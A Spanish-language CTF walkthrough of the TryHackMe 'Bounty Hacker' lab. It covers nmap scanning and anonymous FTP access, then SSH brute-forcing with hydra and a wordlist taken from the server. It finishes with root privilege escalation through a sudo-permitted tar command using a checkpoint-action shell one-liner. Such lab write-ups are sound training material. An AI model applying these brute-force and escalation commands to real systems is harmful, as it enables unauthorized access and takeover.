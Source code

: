 ```yaml
---
layout: article
title: BountyHunter
tags: TryHackMe
article_header:
  type: cover
  image:
    src: /thumbnail.jpg
---
```


Esta es una maquina de TryHackMe
<!--more-->
---


En la primera respuesta nos pide saber quien ha creado el fichero task, para ello hacemos un escaneo con nmap
~~~
sudo nmap 10.10.69.226
~~~
~~~
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-10 17:32 CET
Nmap scan report for 10.10.69.226
Host is up (0.069s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
~~~
Y despues dejamos otro escaneo en segundo plano para que nos de mas información
~~~
$ nmap -Pn -n -T5 --script ftp-anon 10.10.69.226
~~~
~~~
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-10 17:46 CET
Nmap scan report for 10.10.69.226
Host is up (0.067s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 34.97 seconds
~~~

Esto saca los servicios y dice que el ftp tiene login anonimo, por lo que accedemos de la siguiente forma
~~~
ftp 10.10.69.226


Connected to 10.10.69.226.
220 (vsFTPd 3.0.3)
Name (10.10.69.226:kali): ftp
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
~~~

Una vez ya estoy en el hago un ls
~~~
ftp> ls
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
~~~
Y como el archivo que queremos es el task.txt, lo sacamos con el comando get
~~~
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |********************************|    68      134.15 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (1.00 KiB/s)
~~~

Dentro de este fichero tenemos la respuesta de la primera cuestión
~~~
cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-XXX
~~~
Para la segunda respuesta, tenemos dos servicios restantes, de los cuales al hacerle un hydra al ssh con el fichero locks.txt nos da la contraseña. 
~~~
$ hydra -l XXXX -P locks.txt ssh://10.10.69.226
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-10 17:41:33
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.69.226:22/
[22][ssh] host: 10.10.69.226   login: XXXX   password: XXXXXX
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-10 17:41:37
~~~
Una vez que tenemos la contraseña, podemos entrar en el ssh de la siguiente forma
~~~
$ ssh XXX@10.10.69.226           
The authenticity of host '10.10.69.226 (10.10.69.226)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:4: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.69.226' (ED25519) to the list of known hosts.
XXX@10.10.69.226's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
XXX@bountyhacker:~/Desktop$ 
~~~
Una vez ya dentro del servidor ssh podemos sacar la flag de user.txt
~~~
XXXX@bountyhacker:~/Desktop$ cat user.txt 
XXX{XXXXX}
~~~
Ahora necesitamos hacer escalada de privilegio para poder sacar root.txt, primero miramos que programas puedo utilizar con sudo -l, veo lo que podemos ejecutar como administrador 
~~~
XXXX@bountyhacker:~/Desktop$ sudo -l

[sudo] password for XXXX: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User XXX may run the following commands on bountyhacker:
    (root) /bin/tar
~~~
Una vez tenemos que podemos ejecutar /bin/tar buscamos en gtfobins, que comando podemos usar para escalar privilegios
~~~
XXX@bountyhacker:~/Desktop$ tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
#
~~~
Despues de ejecutarlo nos volvemos root en el sistema
~~~
# whoami
root
~~~
La flag de root la encontramos en el directorio root
~~~
# cat root.txt
XXX{XXXXXXX}
~~~